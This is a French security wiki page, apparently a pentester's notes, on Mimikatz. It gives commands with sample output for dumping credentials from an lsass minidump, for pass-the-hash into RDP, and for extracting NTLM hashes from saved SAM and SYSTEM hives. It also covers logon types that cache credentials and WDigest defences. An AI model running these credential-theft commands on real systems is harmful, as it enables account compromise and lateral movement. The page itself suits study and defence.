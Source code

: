 ```yaml
---
title: Mimikatz
permalink: /Mimikatz/
---
```


# Mimikatz

## Commandes utiles

Repris de https://github.com/gentilkiwi/mimikatz/wiki

#### Dump offline

``` text
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...
```

#### Pass the hash et RDP
``` text
privilege::debug
sekurlsa::pth /user:heidegger /domain:SHINRA-INC /ntlm:XXXXXXXXXXXXXXXX /run:"mstsc.exe /restrictedadmin"
```

#### Dump offline de SAM
Récupérer SAM et system:
```text
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
```
Dumper les hashs avec mimikatz:
```text
mimikatz # lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv
Domain : VM-W7-ULT-X
SysKey : 74c159e4408119a0ba39a7872e9d9a56

SAMKey : e44dd440fd77ebfe800edf60c11d4abd

RID  : 000001f4 (500)
User : Administrateur
LM   :
NTLM : 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Invité
LM   :
NTLM :

RID  : 000003e8 (1000)
User : Gentil Kiwi
LM   :
NTLM : cc36cf7a8514893efccd332446158b1a
```

## Secrets d'authentification en mémoire

Les "logins" suivants provoquent le stockage d'information d'authenficaction en mémoire (https://technet.microsoft.com/en-us/windows-server-docs/security/securing-privileged-access/securing-privileged-access-reference-material#a-nameatltbmaadministrative-tools-and-logon-types):

-   Log on at console
-   Remote Desktop
-   RunAs
-   Powershell WiRM with CredSSP
-   PsExec with explicit creds
-   Scheduled Task
-   Tool running as a service
-   IIS "Basic Authentication"

Trucs & astuces:
- Sous les vieilles versions de Windows il est possible d'utiliser mimilove.
- Il est possible de dumper lsass et de l'analyser offline avec mimikatz.

## Défenses

Il existe plusieurs mécanismes pour se défendre contre les attaques utilisant Mimikatz (Plus d'informations sur ADSecurity: <https://adsecurity.org/?p=559>)

### Désactiver wdigest

A partir de Windows 8.1 et Windows Server 2012 les mots de passes ne sont plus stockés en mémoire par défaut. De plus il est possible de faire en sorte que les mots de passe n'apparaissent pas en mémoire dans les anciennes versions de Windows. Il faut pour cela:

-   Appliquer le patch KB2871997
-   Modifier la clé de registre suivante pour qu'elle ait 0:

``` text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)
```


Références
----------

-   [Unofficial Guide to Mimikatz & Command Reference - ADSecurity](https://adsecurity.org/?page_id=1821)
-   [Mimikatz Overview, Defenses and Detection](https://www.sans.org/reading-room/whitepapers/detection/mimikatz-overview-defenses-detection-36780)
-   [Utilisation avancée de Mimikatz](http://connect.ed-diamond.com/MISC/MISC-066/Utilisation-avancee-de-Mimikatz)
-   [Administrative Tools and Logon Types](https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material#ATLT_BM): Information sur la réutilisation des mots de passe

